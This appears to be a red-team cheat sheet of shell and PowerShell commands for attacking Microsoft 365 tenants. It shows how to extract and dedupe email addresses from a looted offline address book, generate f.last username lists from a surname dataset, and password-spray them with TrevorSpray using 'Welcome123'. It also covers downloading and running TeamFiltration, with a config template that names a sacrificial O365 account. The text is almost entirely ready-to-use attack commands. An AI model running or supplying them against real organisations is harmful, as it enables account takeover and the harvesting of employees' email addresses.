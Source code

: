 ### extract LZX file
```bash
./examples/.libs/oabextract ~/.trevorspray/loot/deadbeef-ce01-4ec9-9d08-1050bdc41131-data-1.lzx oab.bin

# extract all strings
strings oab.bin
# extract and dedupe emails
egrep -oa '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}' oab.bin | tr '[:upper:]' '[:lower:]' | sort -u
```

### TrevorSpray Find ValidUsernames without OSINT
### clone wordsmith dataset
```bash
tenant="shrine.cloud"
wget https://github.com/skahwah/wordsmith/releases/download/v2.1.1/data.tar.xz && tar -xvf data.tar.xz && cd data
### order first initial by occurrence
ordered_letters=asjmkdtclrebnghzpyivfowqux
### loop through first initials
echo -n $ordered_letters | while read -n1 f; do
  # loop through top 2000 USA last names
  head -n 2000 'usa/lnames.txt' | while read last; do
    # generate emails in f.last format
    echo "${f}.${last}@$tenant"
  done
done | tee f.last.txt
trevorspray -u f.last.txt -p 'Welcome123'
```

### TeamFiltration Linux
```powershell
iwr https://github.com/Flangvik/TeamFiltration/releases/download/v3.5.0/TeamFiltration-Linux-v3.5.0.zip -o teamfiltration.zip
unzip ./teamfiltration.zip
./teamfiltration
```

### TeamFiltration Windows
```powershell
iwr https://github.com/Flangvik/TeamFiltration/releases/download/v3.5.0/TeamFiltration-Win-v3.5.0.zip -o teamfiltration.zip

Expand-Archive teamfiltration.zip
.\teamfiltration.exe

# Create Config
{
    "pushoverAppKey": "",
    "pushoverUserKey": "",
    "dehashedEmail" : "",
    "dehashedApiKey": "", 
    "sacrificialO365Username": "adelev@shrine.cloud", 
    "sacrificialO365Passwords": "",  
    "proxyEndpoint": "http://127.0.0.1:8080",
    "AWSAccessKey": "",
    "AWSSecretKey": "",
    "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Teams/1.3.00.30866 Chrome/80.0.3987.165 Electron/8.5.1 Safari/537.36"
}
```

